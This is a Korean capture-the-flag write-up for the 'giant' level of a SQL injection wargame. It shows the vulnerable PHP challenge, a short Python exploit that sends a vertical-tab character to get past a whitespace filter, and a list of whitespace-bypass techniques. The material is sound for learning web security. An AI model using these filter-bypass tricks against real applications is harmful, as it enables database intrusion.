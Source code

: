 ## Giant Write-up

### 문제
``` php
<?php  
include "./config.php";  
login_chk();  
dbconnect();  
if(strlen($_GET[shit])>1) exit("No Hack ~_~");  
if(preg_match('/ |\n|\r|\t/i', $_GET[shit])) exit("HeHe");  
$query = "select 1234 from{$_GET[shit]}prob_giant where 1";  
echo "<hr>query : <strong>{$query}</strong><hr><br>";  
$result = @mysql_fetch_array(mysql_query($query));  
if($result[1234]) solve("giant");  
highlight_file(__FILE__);  
?>
```

### Exploit 코드
``` python
import requests

url = 'https://los.rubiya.kr/giant_18a08c3be1d1753de0cb157703f75a5e.php'
cookies = {'PHPSESSID' : 'My PHPSESSID'}
params = {}
params['shit'] = chr(0x0b) # 수직탭(%0b), 다음 페이지(%0c) 사용 가능

res = requests.get(url, cookies=cookies, params=params)

if "Clear" in res.text :
    print("[♪] GIANT Clear")
```
이번 문제는 공백 우회를 해야한다.  
공백 우회하는 방법에는 다음이 있다.
- 괄호 `()`
- 주석 `/**/`
- 더하기 `+`
- 수평탭(Horizontal Tab) `%09`
- 수직탭(Vertical Tab) `%0b`
- 개행(Line Feed) `%0a`
- 다음 페이지(Form Feed) `%0c`
- 복귀(Carriage Return) `%0d`
문제에서 `%20(공백)` `%0a(개행)` `%0d(복귀)` `%09(수평탭)`이 필터링 되어 있고 문자열의 길이가 1글자여야 한다.  
따라서 이를 제외한 `%0b` `%0c`를 이용해 문제를 해결할 수 있다.